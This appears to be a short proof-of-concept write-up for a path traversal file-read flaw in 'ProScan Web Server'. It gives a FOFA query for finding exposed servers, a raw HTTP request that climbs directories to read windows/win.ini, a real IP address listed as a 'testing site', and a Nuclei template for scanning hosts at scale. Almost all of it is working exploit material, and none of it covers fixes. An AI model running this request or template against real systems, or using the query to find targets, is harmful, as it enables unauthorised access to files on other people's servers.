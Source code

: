1. Pages and fofa
![image](https://github.com/user-attachments/assets/58f1b5a0-44fe-4080-91d1-2e2f598408db)
title=ProScan Web Server

2.POC
GET /../../../../../../../../windows/win.ini HTTP/1.1
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)
Host:

3.testing site
http://107.193.206.242:5000
![image](https://github.com/user-attachments/assets/f2a66268-77ff-4b1c-9d79-3311595804a6)

4.nuclei
id: proscan-scanner-fileread

info:
  name: proscan-scanner-fileread
  author: uknow
  severity: high
  description: proscan-scanner-fileread
  tags: yongyou,proscan
  metadata:
    fofa-qeury: title=ProScan Web Server
    veified: true
    max-request: 1

http:
  - raw:
      - |              
        GET /../../../../../../../../windows/win.ini HTTP/1.1
        User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)
        Host: 
               
    matchers:     
      - type: dsl
        name: fileread
        dsl:
          - "status_code_1 == 200 && contains(body,'for 16-bit app support') && contains(header,'application/x-msdownload')"
![image](https://github.com/user-attachments/assets/e0ef2aa1-34c9-4f34-a097-5a3f8053a4d6)

